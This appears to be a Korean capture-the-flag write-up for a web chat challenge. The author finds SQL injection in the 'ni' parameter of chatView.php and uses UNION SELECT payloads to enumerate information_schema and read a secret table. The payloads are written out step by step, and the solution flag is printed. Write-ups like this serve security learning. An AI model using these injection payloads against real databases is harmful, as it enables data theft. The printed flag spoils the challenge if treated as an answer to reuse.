

# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**

***

# **Description**

# **Write-Up**

ID를 입력하라고 나온다.

join버튼을 누른 뒤 나오는 화면은 채팅과 같은 형식이다.

개발자 도구의 Network탭을 보면 초마다 chatlog.php?t=1을 접속하고, 채팅을 하면 catlog.php?data=입력한 값을 보내고, chatView.php?t=1&ni=숫자 에서 데이터를 읽어와 뿌려주는 것으로 짐작이 간다.

ni를 1로 변경 시 첫번째 채팅 내용부터 쭉 보여준다.

ni에 IF(1=1, 64273, 1)를 전달한뒤 결과를 보면 SQLi가 통한다는 것을 알 수 있다.

chatview가 테이블에서 가져오는 컬럼 수를 맞추기 위해 select 1--, select 1,2--와 같이 결과가 나올때까지 컬럼 수 를 증가시키다보면 1 union select 1,2,3,4,5 --에서 결과가 나오고 5개가 필요하다는 것을 알 수 있다.

ni에 1 union select 1,2,schema_name,4,5 from Information_schema.schemata--을 전달하여 database 명들을 알아낸다.

1 union select 1,2,table_name,4,5 from information_schema.tables where table_schema='web_chatting'--을 전달하여 web_chatting의 테이블 명들을 알아내려고 했지만, 쿼리가 먹히지 않는다.

1 union select 1,2,table_name,4,5 from information_schema.tables--로 모든 테이블명을 알아낸다.

1 union select 1,2,column_name,4,5 from information_schema.columns--로 모든 컬럼 명들을 알아낸다.

secret이라는 문자열이 포함된 것으로 보아 chat_log_secret테이블을 보면 될 것 같고, readme컬럼의 포함 유무와 있다면 어떤 데이터가 있는지 쿼리해보면 FLAG를 얻을 수 있다.

* 1 union select 1,2,readme,4,5 from chat_log_secret--

# **FLAG**

**6adb6aefe6a4ed73df512c91d00ca3d5ddd15934**